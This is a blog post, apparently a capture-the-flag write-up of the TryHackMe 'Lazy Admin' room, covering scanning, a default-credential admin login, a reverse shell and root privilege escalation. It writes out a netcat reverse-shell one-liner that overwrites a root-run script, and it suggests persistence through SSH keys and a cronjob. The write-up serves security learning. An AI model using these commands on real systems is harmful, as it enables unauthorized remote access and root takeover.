 ```yaml
---
layout: post
title:  "Lazy Admin THM"
image: ''
date:   2023-04-12 00:01:00
tags:
- thm
description: ''
categories:
- Learn Hacking 
---
```

<img src="/assets/img/sharding-gerenciamento-usuarios/servers.gif">

## Scanning

nmap scan

<img src="/assets/img/thm_pics/lazy_admin_nmap_init.png">

gobuster scan

<img src="/assets/img/thm_pics/lazy_admin_gobuster.png">

Looking into `/content/` we find a website. Running gobuster again we find some interesting sides e.g. a admin login portal.

Looking for default credentials for the side we are quite lucky and can login

<img src="/assets/img/thm_pics/lazy_admin_login.png">

We can also use `searchsploit` to further find interesting vulnerabilties for the cms solution

<img src="/assets/img/thm_pics/lazy_admin_searchsploit.png">

We also found some sql credentials

<img src="/assets/img/thm_pics/lazy_admin_sql_creds.png">

We can abuse the ad function to get a shell one the server

<img src="/assets/img/thm_pics/lazy_admin_rev_shell_login.png">

Running `sudo -l` we are quite suprised since we can run `/usr/bin/perl` as root. Digging a bit deeper we can see that there is a backup script which runs `/etc/copy.sh`. We check if we can write into the file and indeed we can. There is no editor and we have to use echo to overwrite the script. 


{% highlight bash %}
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 5554 >/tmp/f' >/etc/copy.sh
{% endhighlight %}


```
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <local-ip> 5554 >/tmp/f' >/etc/copy.sh
```

<img src="/assets/img/thm_pics/lazy_admin_priv_esc.png">

For persistence we could include our ssh key into the `/root/.ssh/aut_key` and include a cronjob. 
